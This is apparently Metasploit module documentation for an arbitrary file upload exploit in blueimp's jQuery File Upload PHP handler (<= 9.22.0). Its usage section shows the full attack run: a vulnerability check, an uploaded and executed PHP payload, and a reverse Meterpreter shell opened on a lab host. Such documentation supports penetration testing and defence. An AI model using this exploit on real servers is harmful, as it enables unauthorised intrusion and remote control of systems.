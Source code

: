 ## Introduction

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018. It has been present
since the `.htaccess` change in Apache 2.3.9.

This module provides a generic exploit against the jQuery widget.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] 172.28.128.3:80 The target appears to be vulnerable.
msf exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None may be set)
[+] Found unpatched jQuery File Upload 9.22.0
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/FJx2tZWpurPHKIWaYX7sbGTraXTNlRaBB.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54414) at 2018-10-23 07:13:22 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
